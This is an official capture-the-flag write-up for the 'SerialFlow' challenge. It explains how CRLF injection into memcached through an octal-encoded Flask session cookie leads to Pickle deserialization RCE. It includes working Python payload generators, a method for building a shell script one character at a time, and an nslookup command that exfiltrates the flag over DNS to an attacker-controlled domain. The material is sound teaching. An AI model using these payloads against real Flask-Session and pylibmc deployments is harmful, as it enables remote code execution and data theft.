


        <font size="10">SerialFlow</font>

5<sup>th</sup> February 2024 / D24.xx.xx

​Prepared By: Lean

​Challenge Author(s): Lean

​Difficulty: <font color=orange>Medium</font>

​Classification: Official

# [Synopsis](#synopsis)

- Abusing memcached injection => Pickle deserialization RCE with flask_session on a limited payload size

## Description

* SerialFlow is the main global network used by KORP, you have managed to reach a root server web interface by traversing KORP's external proxy network. Can you break into the root server and open pandoras box by revealing the truth behind KORP?

## Skills Required

- Understanding of Python and Flask
- Basic understanding of Memcached
- Identifying known vulnurabilities

## Skills Learned

- Exploiting memcached injection
- Exploiting Pickle deserialization RCE
- Developing an exploit from an online POC

## Application Overview



At `/` we see SerialFlow's UI.

```Dockerfile
FROM python:3.12-alpine

# Install packages
RUN apk update \
    && apk add --no-cache --update memcached libmemcached-dev zlib-dev build-base supervisor

# Upgrade pip
RUN python -m pip install --upgrade pip

# Copy flag
COPY flag.txt /flag.txt

# Setup app
RUN mkdir -p /app

# Switch working environment
WORKDIR /app

# Add application
COPY challenge .

# Install dependencies
RUN pip install --no-cache-dir -r requirements.txt

# Setup supervisor
COPY conf/supervisord.conf /etc/supervisord.conf

# Expose port the server is reachable on
EXPOSE 1337

# Disable pycache
ENV PYTHONDONTWRITEBYTECODE=1

# Create database and start supervisord
COPY --chown=root entrypoint.sh /entrypoint.sh
RUN chmod +x /entrypoint.sh
ENTRYPOINT ["/entrypoint.sh"]
```

The `Dockerfile` shows us that memcached and some required dependencies are installed.

```sh
#!/bin/sh

# Secure entrypoint
chmod 600 /entrypoint.sh

# Change flag name
mv /flag.txt /flag$(cat /dev/urandom | tr -cd "a-f0-9" | head -c 10).txt

/usr/bin/supervisord -c /etc/supervisord.conf
```

At `entrypoint.sh` we see that the flag at `/` in the filesystem is renamed as `flag<10_random_chars>.txt`, this means that we will need an RCE to retrieve it.

```
[supervisord]
user=root
nodaemon=true
logfile=/dev/null
logfile_maxbytes=0
pidfile=/run/supervisord.pid

[program:flask]
command=python /app/run.py
user=root
autorestart=true
stdout_logfile=/dev/stdout
stdout_logfile_maxbytes=0
stderr_logfile=/dev/stderr
stderr_logfile_maxbytes=0

[program:memcached]
command=memcached -u memcache -m 64
user=memcached
autorestart=true
stdout_logfile=/dev/stdout
stdout_logfile_maxbytes=0
stderr_logfile=/dev/stderr
stderr_logfile_maxbytes=0
```

At `conf/supervisord.conf` we see the config file for `supervisor`, the flask webapp and memcached are run.

```
Flask==2.2.2
Flask-Session==0.4.0
pylibmc==1.6.3
Werkzeug==2.2.2
```

At `challenge/requirements.txt` we see the python dependencies installed. The packages installed are `Flask`, `Flask-Session`, `pylibmc` and `Werkzeug`.

```py
import pylibmc, uuid, sys
from flask import Flask, session, request, redirect, render_template
from flask_session import Session

app = Flask(__name__)

app.secret_key = uuid.uuid4()

app.config["SESSION_TYPE"] = "memcached"
app.config["SESSION_MEMCACHED"] = pylibmc.Client(["127.0.0.1:11211"])
app.config.from_object(__name__)

Session(app)

@app.before_request
def before_request():
    if session.get("session") and len(session["session"]) > 86:
        session["session"] = session["session"][:86]


@app.errorhandler(Exception)
def handle_error(error):
    message = error.description if hasattr(error, "description") else [str(x) for x in error.args]

    response = {
        "error": {
            "type": error.__class__.__name__,
            "message": message
        }
    }

    return response, error.code if hasattr(error, "code") else 500


@app.route("/set")
def set():
    uicolor = request.args.get("uicolor")

    if uicolor:
        session["uicolor"] = uicolor
    
    return redirect("/")


@app.route("/")
def main():
    uicolor = session.get("uicolor", "#f1f1f1")
    return render_template("index.html", uicolor=uicolor)
```

At `challenge/application/app.py` we have most of the logic of the challenge, let's break it down.

```py

import pylibmc, uuid, sys
from flask import Flask, session, request, redirect, render_template
from flask_session import Session

app = Flask(__name__)

app.secret_key = uuid.uuid4()

app.config["SESSION_TYPE"] = "memcached"
app.config["SESSION_MEMCACHED"] = pylibmc.Client(["127.0.0.1:11211"])
app.config.from_object(__name__)

Session(app)
```

At the top of the code some packages are imported including `pylibmc`, numerous flask classes and `Session` from `Flask-Session`.

Then the main `Flask` object is defined and it's `secret_key` is set to a random `uuid`,

Then some config values are set, specifically `SESSION_TYPE` = `memcached` which tells `Flask-Session` to store the sessions on a `memcached` instance and `SESSION_MEMCACHED` = `pylibmc.Client(["127.0.0.1:11211"])` which uses a `pylibmc` connection to a memcached instance located at `127.0.0.1:11211` to provide an interface for `Flask-Session`.

Then the `Session` is initiated.

```py
@app.before_request
def before_request():
    if session.get("session") and len(session["session"]) > 86:
        session["session"] = session["session"][:86]


@app.errorhandler(Exception)
def handle_error(error):
    message = error.description if hasattr(error, "description") else [str(x) for x in error.args]

    response = {
        "error": {
            "type": error.__class__.__name__,
            "message": message
        }
    }

    return response, error.code if hasattr(error, "code") else 500
```

At the later part we have the definitions of two middlewares.

One is `@app.before_request` which is called before any request reaching to the app.

There the code checks if the `session` session key is set on the current user's session, if it is and it's length surpasses `86` it gets trimmed down to `86` characters.

Then we have `@app.errorhandler(Exception)`, which handles unhandled exceptions within the whole app and returns the error message as a JSON HTTP response if they occur.

```py
@app.route("/set")
def set():
    uicolor = request.args.get("uicolor")

    if uicolor:
        session["uicolor"] = uicolor
    
    return redirect("/")


@app.route("/")
def main():
    uicolor = session.get("uicolor", "#f1f1f1")
    return render_template("index.html", uicolor=uicolor)
```

Now two routes are registered.

`/set` expects a get parameter `uicolor` and if it is provided the user's session with key `uicolor` gets assigned the provided value.

`/` renders the template from `challenge/application/templates/index.html` providing a `uicolor` value fetched either from the user's `uicolor` session or from a backup value.

```
http://localhost:1337/set?uicolor=%23ff00ff
```

Navigating to the above url will cause the ui to be rendered in purple instead of white color.



## Exploitation

### Memcached injection

There is not much code that would hint to something vulnerable in this challenge, however when researching for vulnerabilities on the dependecies used we come an interesting one that that affects `Flask-Session`, it is documented on [this](https://btlfry.gitlab.io/notes/posts/memcached-command-injections-at-pylibmc/) article.

`Flask-Session` stores session data as pickle serialized objects, and de-serializes them when the session is read.

```py
full_session_key = self.key_prefix + session.sid

if not PY2:
    val = self.serializer.dumps(dict(session), 0)
else:
    val = self.serializer.dumps(dict(session))
self.client.set(full_session_key, val, self._get_memcache_timeout(
                total_seconds(app.permanent_session_lifetime)))
```

The above code is a snippet from `Flask-Session` `save_session` function, as you can see the provided data is serialized.

Since we know that this app is using `memcached`, if we manage to inject a `CRLF` sequence in this payload we could achieve memcached injection, and we could inject an arbitrary serialized payload stored on an arbitrary memcached key that would get deserialized thus causing RCE when we call code that would read it.

As article author `d0ge` explains in the blog it is impossible to set a normal CRLF sequence on HTTP headers (reffering to the session cookie that we would need to inject) since they often are sanitized.

However since RFC2109 is implemented in our case, we can bypass this by encoding special characters into octal notation prefixed by a `\` backslash.

Original query:
```
set uicolor 0 5 4\r\n#ff00ff\r\n
```

Injection Payload:
```
1\r\nset injected 0 5 4\r\ntest
```

Query with injection:
```
set uicolor 0 5 4\r\n1\r\nset injected 0 5 4\r\ntest\r\n
```

This is what a memcached injection payload would look like, we are escaping the original query and setting our own value `test` for key `injected`.

If we call `get injected\r\n` we would get `test`.

```py
payload = b"test"
payload_size = len(payload)
cookie = b"1\r\nset injected 0 5 "
cookie += str.encode(str(payload_size))
cookie += str.encode("\r\n")
cookie += payload
cookie += str.encode("\r\n")
cookie += str.encode("get injected")

pack = ""
for x in list(cookie):
    if x > 64:
        pack += oct(x).replace("0o", "\\")
    elif x < 8:
        pack += oct(x).replace("0o", "\\00")
    else:
        pack += oct(x).replace("0o", "\\0")

print(pack)
```

The code above encodes the injection to octal.

```py
import pickle, os

class RCE:
    def __init__(self, char):
        self.char = char

    def __reduce__(self):
        cmd = (f"sleep 10")
        
        return os.system, (cmd,)

payload = pickle.dumps(RCE(), 0)
payload_size = len(payload)
cookie = b"1\r\nset injected 0 5 "
cookie += str.encode(str(payload_size))
cookie += str.encode("\r\n")
cookie += payload
cookie += str.encode("\r\n")
cookie += str.encode("get injected")

pack = ""
for x in list(cookie):
    if x > 64:
        pack += oct(x).replace("0o", "\\")
    elif x < 8:
        pack += oct(x).replace("0o", "\\00")
    else:
        pack += oct(x).replace("0o", "\\0")

final = f"\"{pack}\""
print(final)
```

The code above generates a pickle RCE payload, adds it to the memcached injection sequence and encodes it into octal, setting this as a cookie with the name `session` should cause a 10 second delay thus confirming RCE.

The RCE is blind since the server crashes after a succesful exploitation.

### Bypassing length limit

Going back to the `@app.before_request` middleware we know that there is a 86 character limit on the session cookie, so we are not able to exfiltrate the flag in one direct payload as it gets trimmed and becomes invalid.

Let's try to create a malicious `.sh` file step by step on the server that we can the call to get the flag.

Since the docker image is running on `alpine` linux there is not many tools on the server we can abuse for blind exfiltration. One that exists and we can use though is `nslookup` for DNS exfiltration.

```
nslookup $(cat /flag*).myserver.com
```

This `sh` payload would get the flag and make a DNS query with the contents of the flag as subdomain to a server controlled by us.

Now we need to repeat the memcached injection pickle RCE sequence for each character of the payload and then follow it up with a payload that would call the malicious `.sh`.

```py
import pickle, os, time

class RCE:
    def __init__(self, char):
        self.char = char

    def __reduce__(self):
        cmd = (f"echo -n '{self.char}'>>a")
        
        return os.system, (cmd,)


class TriggerRCE:
    def __reduce__(self):
        cmd = (f"sh a")
        return os.system, (cmd,)


def generate_rce(char, trigger=False):
    payload = pickle.dumps(RCE(char), 0)
    if trigger: payload = pickle.dumps(TriggerRCE(), 0)
    payload_size = len(payload)
    cookie = b"1\r\nset injected 0 5 "
    cookie += str.encode(str(payload_size))
    cookie += str.encode("\r\n")
    cookie += payload
    cookie += str.encode("\r\n")
    cookie += str.encode("get injected")

    pack = ""
    for x in list(cookie):
        if x > 64:
            pack += oct(x).replace("0o", "\\")
        elif x < 8:
            pack += oct(x).replace("0o", "\\00")
        else:
            pack += oct(x).replace("0o", "\\0")

    return f"\"{pack}\""


def generate_exploit(cmd):
    cmd = " ".join(cmd) + " "
    payload_list = []
    for char in cmd:
        if char == "\n":
            payload_list.append(generate_rce(char, newline=True))
        else:
            payload_list.append(generate_rce(char))
            
    return payload_list


payload_file = f"nslookup $(cat /flag*).myserver.com"
exploit = generate_exploit(payload_file)
trigger = generate_rce("", trigger=True)
```

In the code above we generate a sequence containing `echo -n '<character>'>>a` that appends each character of the payload to the `a` file, we also generate another sequence using the `TriggerRCE` class as it is important to run it at the end to cause `a` to be run.

You may also notice that we add a ` ` space between each character on thet payload, this is done because of a bug that cause the server to not accept new characters in the payload one directly after the other.

```py
def pwn():
    payload_file = f"nslookup $(cat /flag*).{DNS_EXFIL}"
    exploit = generate_exploit(payload_file)
    for char_payload in exploit:
        while True:
            time.sleep(1)
            try:
                resp = requests.get(f"{CHALLENGE_URL}/set", cookies={"session": char_payload})
                if resp.status_code != 302 or resp.status_code != 200:
                    break
                else:
                    requests.get(f"{CHALLENGE_URL}/")
                    continue
            except:
                continue

    trigger = generate_rce("", trigger=True)
    while True:
        time.sleep(1)
        try:
            resp = requests.get(f"{CHALLENGE_URL}/set", cookies={"session": trigger})
            if resp.status_code != 302 or resp.status_code != 200:
                break
            else:
                requests.get(f"{CHALLENGE_URL}/")
                continue
        except:
            continue    
```

This is the final logic that causes the injections, notice how we check for status codes `302` and `200`, that is done because the server craches after a successful injection, so we need to keep track of when the server has accepted our payload correctly before moving to the next one.

Running the sequence of payloads correctly will send us the flag in the dns server we provided.